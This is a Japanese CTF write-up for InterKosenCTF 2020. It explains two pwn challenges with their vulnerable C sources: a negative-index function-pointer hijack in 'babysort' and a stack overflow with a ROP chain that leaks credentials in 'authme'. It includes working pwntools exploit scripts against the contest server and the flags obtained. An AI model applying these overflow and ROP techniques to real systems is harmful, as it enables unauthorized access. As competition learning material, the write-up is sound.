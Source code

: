 ```yaml
---
title: "InterKosenCTF2020"
date: 2020-09-07T01:14:23+09:00
tags: ["writeup", "kosen"]
draft: true
mathjax: true
---
```


<div class="section">

InterKosenCTF 2020に，久しぶりにkaitoさんとチームStarrySkyで参加しました．結果は20位で少し残念でしたが，面白い問題が多くとても楽しめました．運営は3人しかいないらしくとても大変そうです．本当にお疲れ様でした．  
では自分が解いた問題のwirteupを書いていこうと思います．

## [pwn: 105pts] babysort (49 solved)
次のプログラムで動いているサービスがあります．

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

typedef int (*SORTFUNC)(const void*, const void*);

typedef struct {
  long elm[5];
  SORTFUNC cmp[2];
} SortExperiment;

/* call me! */
void win(void) {
  char *args[] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
}

int cmp_asc(const void *a, const void *b) { return *(long*)a - *(long*)b; }
int cmp_dsc(const void *a, const void *b) { return *(long*)b - *(long*)a; }

int main(void) {
  SortExperiment se = {.cmp = {cmp_asc, cmp_dsc}};
  int i;

  /* input numbers */
  puts("-*-*- Sort Experiment -*-*-");
  for(i = 0; i < 5; i++) {
    printf("elm[%d] = ", i);
    if (scanf("%ld", &se.elm[i]) != 1) exit(1);
  }

  /* sort */
  printf("[0] Ascending / [1] Descending: ");
  if (scanf("%d", &i) != 1) exit(1);
  qsort(se.elm, 5, sizeof(long), se.cmp[i]);

  /* output result */
  puts("Result:");
  for(i = 0; i < 5; i++) {
    printf("elm[%d] = %ld\n", i, se.elm[i]);
  }
  return 0;
}

__attribute__((constructor))
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(300);
}
```

bofかなんかを利用してwin関数に飛べばフラグが取れる問題です．34行目にあるscanfで，負の数値を受け取ることができてしまうことを利用して，qsortのソート用の関数をwinのアドレスにすることで呼び出すことができます．  
  
構造体はそのメンバ順にメモリにマップされるため，se.cmpの一つ後ろのアドレスにse.elmの一番後ろのアドレスが位置しています．そのため，最初の入力でse.elmの一番最後の要素にwinのアドレスを入れておけば，se.cmp[-1]をqsortに渡すことでwinを呼び出すことができます．  
ソルバどぺー  

``` python
from pwn import *

win_addr = 0x00400787

r = remote("pwn.kosenctf.com", 9001)

r.sendline("0")
r.sendline("0")
r.sendline("0")
r.sendline("0")
r.sendline(str(win_addr))
r.sendline("-1")

r.interactive()

# KosenCTF{f4k3_p01nt3r_l34ds_u_2_w1n}
```

## [pwn: 300pts] authme (20 solved)
次のコードで動いている実行ファイルと，ダミーのパスワードとユーザー名が渡されます．
``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int auth = 1;
char username[0x20];
char password[0x20];

void init(void) {
  FILE *fp;

  /* read secret username */
  if ((fp = fopen("./username", "r")) == NULL) {
    puts("[-] Please report this bug to the admin");
    exit(1);
  }
  fread(username, sizeof(char), 0x20, fp);
  fclose(fp);

  /* read secret password */
  if ((fp = fopen("./password", "r")) == NULL) {
    puts("[-] Please report this bug to the admin");
    exit(1);
  }
  fread(password, sizeof(char), 0x20, fp);
  fclose(fp);
}

int main() {
  char buf[0x20];

  init();

  puts("                _   _     __  __ ______ ");
  puts("     /\\        | | | |   |  \\/  |  ____|");
  puts("    /  \\  _   _| |_| |__ | \\  / | |__   ");
  puts("   / /\\ \\| | | | __| '_ \\| |\\/| |  __|  ");
  puts("  / ____ \\ |_| | |_| | | | |  | | |____ ");
  puts(" /_/    \\_\\__,_|\\__|_| |_|_|  |_|______|\n");

  printf("Username: ");
  if (fgets(buf, 0x40, stdin) == NULL) return 1;
  if (strcmp(buf, username) != 0) auth = 0;

  printf("Password: ");
  if (fgets(buf, 0x40, stdin) == NULL) return 1;
  if (strcmp(buf, password) != 0) auth = 0;

  if (auth == 1) {
    puts("[+] OK!");
    system("/bin/sh");
    exit(0);
  } else {
    puts("[-] NG!");
    exit(1);
  }
}

__attribute__((constructor))
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(60);
}
```

bufの容量が0x20なのにもかかわらず，43，47行目で0x40の長さの文字列が入力できてしまうのが脆弱性になっています．最初はこれに気づけなくて大変でした．    
  
一つ目のfgetsでbofを起こせます．bufの先頭からオフセット0x28の位置にリターンアドレスがあり，この部分でそれをを書き換えることができます．また，そのまま進むとauthが1でも0でもexitしてしまうためリターンアドレスに飛ぶことファできないため，2つ目のfgetsにnullを返させてreturn 1を実行できるようにします．  

1つ目のfgetsで，リターンアドレスを52行目のsystemに飛ばせばそのままシェルが取れるような気がしますが，実はこの部分のアドレスには0x0aが含まれています．これは改行文字でfgetsはそこで入力を終わりにしてしまい，52行目のアドレスを入力しきることができません．そのためpop rdiのガジェットを使ってusernameとpasswordをputsしリークすることを目指します．  
ソルバどぺー  
10行目のコメントを外せばパスワードが取れます．

``` python
from pwn import *

r = remote("pwn.kosenctf.com", 9002)

puts = 0x4006a6
username = 0x6020c0
password = 0x6020e0
pop_rdi = 0x400b03
payload = b"A" * 0x28 + p64(pop_rdi) + p64(username) + p64(puts)[:-1]
# payload = b"A" * 0x28 + p64(pop_rdi) + p64(password) + p64(puts)[:-1]
r.send(payload)

r.recvuntil("Password: ")
r.shutdown("send")

r.interactive()
# username: UnderUltimateUtterUranium
# password: PonPonPainPanicParadigm
# KosenCTF{cl0s3_ur_3y3_4nd_g0_w1th_th3_fl0w}
```

</div>
